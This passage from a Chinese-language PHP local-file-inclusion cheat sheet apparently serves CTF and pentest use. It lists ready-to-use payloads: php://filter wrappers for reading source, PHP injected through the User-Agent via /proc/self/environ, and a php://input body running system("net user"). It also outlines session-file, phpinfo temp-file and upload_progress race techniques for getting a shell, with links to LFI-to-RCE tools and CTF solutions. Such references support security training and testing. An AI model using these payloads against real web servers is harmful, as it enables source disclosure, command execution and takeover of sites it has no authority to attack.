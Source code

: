 ## 環境變數

- `../../../../proc/self/environ`
    - HTTP_User_Agent塞php script

## php://filter

- `php://filter/convert.base64-encode/resource=index.php`
- `php://filter/convert.base64-decode/resource=index.php`
- `php://filter/read=string.rot13/resource=index.php`
- `php://filter/zlib.deflate/resource=index.php`
- `php://filter/zlib.inflate/resource=index.php`
- `php://filter/convert.quoted-printable-encode/resource=index.php`
- `php://filter/read=string.strip_tags/resource=php://input`
- `php://filter/convert.iconv.UCS-2LE.UCS-2BE/resource=index.php`
- `php://filter/convert.iconv.UCS-4LE.UCS-4BE/resource=index.php`
- ...
- 進階玩法
    - LFI RCE without controlling any file: https://github.com/wupco/PHP_INCLUDE_TO_SHELL_CHAR_DICT
    - Memory Limit Oracle to read local file: https://github.com/DownUnderCTF/Challenges_2022_Public/blob/main/web/minimal-php/solve/solution.py
    - Example:
        - [hxp ctf 2021 - includer's revenge](https://gist.github.com/loknop/b27422d355ea1fd0d90d6dbc1e278d4d)
        - [CakeCTF 2022 - ImageSurfing](https://ptr-yudai.hatenablog.com/#ImageSurfing)
        - [DownUnderCTF 2022 - minimal-php](https://github.com/DownUnderCTF/Challenges_2022_Public/tree/main/web/minimal-php)
        - [blaklisctf - chall3](https://twitter.com/Blaklis_/status/1625918537813446656)
## php://input

- `?page=php://input`
    - post data: `<?php system("net user"); ?>`
    - 需要有開啟 `url_allow_include`，5.4.0 直接廢除

## phpinfo

- 對 server 以 form-data 上傳文件，會產生 tmp 檔
- 利用 phpinfo 得到 tmp 檔路徑和名稱
- LFI Get shell
- 限制
    - Ubuntu 17 後，預設開啟 `PrivateTmp`，無法利用

## php session

- Session 一般存在 `sess_{PHPSESSID}` 中
- 可以透過修改 Cookie 再 LFI 拿 shell
- 以下為常見存放路徑
    - /var/tmp/
    - /tmp/
    - /var/lib/php5/
    - /var/lib/php/
    - C:\windows\temp\sess_<PHPSESSID>
        - windows
- `session.upload_progress`
    - PHP 預設開啟
    - 用來監控上傳檔案進度
    - 當 `session.upload_progress.enabled` 開啟，可以 POST 在 `$_SESSION` 中添加資料 (`sess_{PHPSESSID}`)
    - 配合 LFI 可以 getshell
    - `session.upload_progress.cleanup=on` 時，可以透過 Race condition
    - 上傳 zip
        - 開頭會有 `upload_progress_`，結尾也有多餘資料，導致上傳 zip 正常狀況無法解析
        - 利用 zip 格式鬆散特性，刪除前 16 bytes 或是手動修正 EOCD 和 CDH 的 offset 後上傳，可以讓 php 正常解析 zip